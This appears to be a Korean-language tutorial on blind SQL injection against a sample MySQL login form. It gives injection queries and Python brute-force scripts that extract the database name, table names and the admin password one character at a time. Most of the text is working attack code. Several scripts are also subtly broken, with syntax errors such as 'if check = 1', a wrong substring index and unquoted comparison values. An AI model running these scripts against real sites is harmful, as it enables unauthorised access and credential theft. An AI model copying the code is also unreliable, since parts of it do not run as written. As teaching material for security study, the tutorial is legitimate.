

# blind sql injection

## 예시 db 구조
<br>

~~~~sql
database => testdb

table => member

mysql[testdb] >SELECT * FROM member;

+-------+--------+
| id    |  pw    |
+-------+--------+
| guest | test   |
| admin | passwd |
+-------+--------+
~~~~

### Blind Sql Injection Function List
* * *
<br>

```sql
mid()
left()
right()
instr()
substr()
substring()...
```

## database length
* * *

```sql
admin User database length blind sql injection

SELECT * FROM member WHERE id='' or length(database())=0~10--'' and pw=''

-> Mysql database length
```
<br>

database() 로 데이터 베이스 이름을 알수있고

length 로 database() 의 결과값 길이를 출력하게 한다.

* * *

<br>

### __database(db) length 브루트포스 script__

```python
import requests
# requests 모듈 import
for length in range(1,100):
    #length 브루트 포스 숫자 생성
    data = {
        'id':f"' or length(database())={length}",
        # database() 길이 구하는 스크립트
        'pw':'No Value'
        #아무런 값
    }

    Urlrequest = requests.post(Url, data=data)
    #post 방식으로 url 에 data 전송

    if Urlrequest.text.find("Login succee!") > 0:
        # 만약에 쿼리가 참이라면 login succee! 감지후 
        print("database length :",length)
        #출력한다음 for 밖으로 나오기
        break
```

## database name 브루트포스

```sql
Mysql database name guess

SELECT * FROM member WHERE id='' or substr(database(),1,1)=0~z--'' and pw=''

-> substr(database(),1,1) 로 데이터베이스(db) 추측
```

### database 브루트포스 script

```python
import requests

check = 1
for dblength in range(1,100):
    for i in range(33,122):
        data = {
            'id':f"' or substr(database(),1,1)={chr(i)}--'",
            'pw':'No Value'
        }
        Urlrequest = requests.post(Url, data=data)

        if Urlrequest.text.find("Login succee!") > 0:
            print(chr(i),end='')
            check = 0
            break
    if check = 1:
        break
    check = 1
```

## table name length

```sql
table name length blind sql injection

SELECT * FROM member WHERE id='' or length((select table_name from information_schema.tables where table_schema='testdb' limit 0,1))=0~10--'' and pw=''

-> table_schema 으로 알고있는 db 이름을 넣으면 된다.

-> 만약에 해당 테이블 외에도 다른 테이블도 하고싶다면 limit 0,1 을 1,1 등등으로 바꾸면 된다.
```

### table name length 브루트포스 script

```python
import requests
#requests 모듈 import
databasename = (table 주입 공격할 db)
#table 길이 공격할 db 이름
for tblength in range(1,100):
    #table length 브루트보스할 길이 생성
    data = {
        'id':f"' or length((select table_name from information_schema.tables where table_schema='{databasename}' limit 0,1))={tblength}--'",
        # table name length sql injection query
        'pw':'No Value'
        # No Value
    }

    Urlrequest = requests.post(Url ,data=data)
    #원하는 url 로 data 전송

    if Urlrequest.text.find("Login succee!") > 0:
        # 해당 query 이 참이 될시 로그인 되는것과 동일
        print("database(db) name length",tblength)
        #위의 조건이 종촉될시에 length 출력하면서 for 나오기
        break
```

## table name 브루트포스

```sql
Mysql table name 한글자씩 추측

SELECT * FROM member WHERE id='' or substr((select table_name from information_schema.tables where table_schema='testdb' limit 0,1),1,1)=0~z--'' and pw=''

-> table_schema 에서 원하는 db 로 하고 
-> 혹시 모를 많을 table 들을 limit 로 하나씩 한다.
```

### table name 브루트포스 script

```python
import requests

dataname = (table 뽑을 database(db) 이름)

check = 1

tablename = ''

for dblength in range(1,100):
    for i in range(33,122):
        data = {
            'id':f"' or substr((select table_name from information_schema.tables where table_schema='testdb' limit 0,1),{dblength},1)={chr(i)}",
            #tabme name 을 substr로 쿼리 만들기
            'pw':'No Value'
            #아무런 값
        }
        Urlrequest = requests.post(Url ,data=data)
        #post 방식으로 url 에 data 전송
        if Urlrequest.text.find("Login succee!") > 0:
            #id 의 query 가 삼일시에 로그인
            tablename += chr(i)
            #table name 에 chr(i) 를 하나씩 저장
            print(chr(i),end='')
            #chr(i) 로 줄바꿈 없이 table 네임한글자씩 출력
            check = 0
            break
    if check = 1:
        break
    check = 0    
    #check 로 length 체크       
```


## Password length
* * *
<br>

~~~~sql
admin User Password Blind Sql injection Start

SELECT * FROM member WHERE id='admin' and length(pw)=1~9--'' and pw=''

-> User admin 의 비밀번호 길이를 브루트포스 시도
~~~~
<br>

### __Python length 알아내기 위한 Sql injection__
<br>

```python
import requests
# requests 모듈 import

for length in range(1,100):
    # length 브루트포스

    # url에 data 전송하여 리턴값 받음
    data = {
        'id':f"admin' and length(pw)={length}--'",
        # 패스워드 길이 알아내기위한 sql 구문
        'pw':'No Value'
        # 아무런 값
    }

    Urlrequest = requests.post(Url, data = data)
    # url 에 post 방식으로 data 전달

    if Urlrequest.text.find("Login succee!") > 0:
    #로그인 성공시 나오는 Login succee! 가 있는지 판단
        print("admin User length = ",length)
        #위의 조건이 맞다면 length 를 출력후 for 문을 빠져나옴
        break
```

### __비밀번호 한자리씩 브루트 포스__
* * *
<br>

```sql
SELECT * FROM member WHERE id='admin' and substr(pw,1,1)='0~z'--'' and pw=''
-> User admin Pssword 한자리씩 브루트 포스
```



### User admin Password substr python Script

<br>

```python
import requests

check = 1 # 비밀번호 길이 체크

AdminPassword = '' # 비밀번호 저장

for pwlength in range(1,100): 

    '''
    비밀번호 길이
    대신 비밀번호 길이를 안다면 check 변수 필요없이
    range 에 range(1,passwordlength+1) 하면 된다.
    대신 check 를 할경우 시간이 더 소모된다.
    '''

    for i in range(33,122): 
        # 비밀번호 chr() 함수로 문자 변형
        data = {
            'id':f"admin' and substr(pw,{pwlength},1)={chr(i)}",
            # substr 함수 브루트포스 script
            'pw':'No Value'
            # 아무런 값
        }

        Urlrequest = requests.post(Url, data=data)

        if Urlrequest.text.find("Login succee!") > 0:
            print(chr(i),end='')
            # chr(i) 로 패스워드 줄바꿈 없이 출력

            AdminPassword += chr(i)
            # chr(i) 로 패스워드 저장

            check = 0
            # check를 0 으로 초기화시켜서 비밀번호 길이 체크
            break

    if check == 1:
        # 만약 check 가 1이라면 패스워드 길이 끝

        break
    check = 1
    # 위의 조건이 아니면 1로 초기화

print(AdminPassword)
# 합쳐진 패스워드 출력
```
<br>

## ascii 문자로 프루트 포스
<br>

* * *
range 로 돌면서 사용한 chr 함수이다. 
<br><br>
간단하게 숫자를 아스키코드처럼 여겨 문자열로 변환

* * *
<br>

